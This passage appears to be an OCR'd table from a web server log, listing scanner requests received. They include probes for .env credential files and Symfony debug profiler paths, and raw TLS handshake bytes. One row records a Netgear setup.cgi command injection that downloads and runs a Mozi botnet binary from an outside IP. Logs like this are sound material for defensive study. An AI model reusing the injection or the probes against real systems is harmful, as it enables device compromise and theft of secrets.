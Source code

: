 | 102 |                     1 | GET /shared/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                            |
| 103 |                     1 | GET /.env.project HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
| 104 |                     1 | GET /apps/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |
| 105 |                     1 | \x16\x03\x03\x01\xA6\x01\x00\x01\xA2\x03\x03\x91\xD10?\x1A\xE8B\x0C>\xB5\xFB4[\xD9\x96\xD2\xEDr\xBC\x8D\x03\x1F\xCE \x191\xA0\xD6C\x94\x8A6 3\x7F\xCD\xD8\xA4\x06\x9B\xEC\xB6\xF7\xF2&\xDDcx\x1BQ\x10\xD9\x91\x82d\xDE\xCAO\xF3Mj\xBA\xE0\x81\x03\x00\x8A\x00\x16\x003\x00g\xC0\x9E\xC0\xA2\x00\x9E\x009\x00k\xC0\x9F\xC0\xA3\x00\x9F\x00E\x00\xBE\x00\x88\x00\xC4\x00\x9A\xC0\x08\xC0\x09\xC0#\xC0\xAC\xC0\xAE\xC0+\xC0             |
| 106 |                     1 | GET /index.php/_profiler/empty/search/results?limit=10 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                      |
| 107 |                     1 | GET /backend_dev.php/_profiler/empty/search/results?limit=10 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                |
| 108 |                     1 | GET /index_dev.php/_profiler/empty/search/results?limit=10 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                  |
| 109 |                     1 | GET /dev.php/_profiler/empty/search/results?limit=10 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                        |
| 110 |                     1 | GET /debug.php/_profiler/empty/search/results?limit=10 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                      |
| 111 |                     1 | GET /_debug/_profiler/empty/search/results?limit=10 HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                         |
| 112 |                     1 | \x16\x03\x01\x00\x91\x01\x00\x00\x8D\x03\x03\x01-l]\xFE\x12\xC0\x9D\x00\xD6[\x8D\xA2}\xEA\xA7{\xF6fs\xD1c\xE9\xB94\x9E\xF9r\xE0\x5C \x87\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                                           |
| 113 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://115.51.102.117:57880/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                                                        |
| 114 |                     1 | \x16\x03\x03\x01\xA6\x01\x00\x01\xA2\x03\x03\xB9\x1C\xD3\xDD\xB9;\xFD\x89!\x181\xF5Qc\xD6\x9D\x8F\xC8\xCB~\x1B\xE4z2l\x13\xBB\xFC{\xA2\x18\xE1 \xFA\xE1\xF6\x8Es\x0E\x04\xF7\x1B\x9E\x16\xED\xAA\xD7\xF7T\xD88\xF3G\xFC\xEC\xD1\xDB\xC1\xFB\xD2\xDF\x15b\x03.\x00\x8A\x00\x16\x003\x00g\xC0\x9E\xC0\xA2\x00\x9E\x009\x00k\xC0\x9F\xC0\xA3\x00\x9F\x00E\x00\xBE\x00\x88\x00\xC4\x00\x9A\xC0\x08\xC0\x09\xC0#\xC0\xAC\xC0\xAE\xC0+\xC0 |